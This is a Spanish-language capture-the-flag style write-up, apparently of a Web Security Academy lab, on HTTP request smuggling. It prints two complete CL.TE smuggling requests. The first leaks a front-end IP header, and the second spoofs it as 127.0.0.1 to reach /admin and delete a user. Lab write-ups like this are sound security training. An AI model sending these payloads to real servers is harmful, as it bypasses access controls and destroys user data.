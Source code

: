 En esta clase aprendemos a aprovechar una vulnerabilidad de HTTP request smuggling para identificar cabeceras que el servidor front-end añade a las peticiones entrantes. Estas cabeceras pueden determinar el acceso a zonas restringidas, como el panel de administración.

Primero, utilizamos un ataque de tipo CL.TE para inyectar una petición secundaria y observar cómo el front-end reescribe el tráfico. Al examinar la respuesta del back-end, logramos identificar la cabecera que transporta la IP del cliente. Luego, reproducimos el ataque incluyendo esta cabecera manualmente con el valor 127.0.0.1, lo que nos permite acceder al panel /admin.

Finalmente, modificamos la petición smuggled para apuntar a ‘**/admin/delete?username=carlos**‘, logrando así eliminar al usuario objetivo y resolver el laboratorio.

Solucion
en este caso vamos a interceptar el input que ponemos en la parte principal de la pagina esto se hace poniendo cual quiercosa en la barra de busquedad
![Pasted_image_20250807210951.png](/Imagenes/Pasted_image_20250807210951.png)
lo interceptamos esta ves solo ponemos el http1.1
Entonces lo primero seria poner esta peticion para poder sacar una cabecera que es la que nos llevara a /admin
(POST / HTTP/1.1

Host: 0a5e007e041839cb80d0534500f30052.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 56

Transfer-Encoding: chunked



0



POST / HTTP/1.1

Content-Length: 200



search=test)
y esto se veria asi
![Pasted_image_20250807213247.png](/Imagenes/Pasted_image_20250807213247.png)
Y si nosotros no podemos ver la cabecera como en forma de error en el render solamente actualizamos la pagina principal para pdoer visualizarlo
![Pasted_image_20250807213343.png](/Imagenes/Pasted_image_20250807213343.png)
y ya al final lo adaptmaos a nuestro payload final
doble send y con esto terminamos
![Pasted_image_20250807213709.png](/Imagenes/Pasted_image_20250807213709.png)
Payload(POST / HTTP/1.1

Host: 0a5e007e041839cb80d0534500f30052.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 106

Transfer-Encoding: chunked



0



GET /admin/delete?username=carlos HTTP/1.1

X-ppcVGN-Ip: 127.0.0.1

Content-Length: 13



search=test)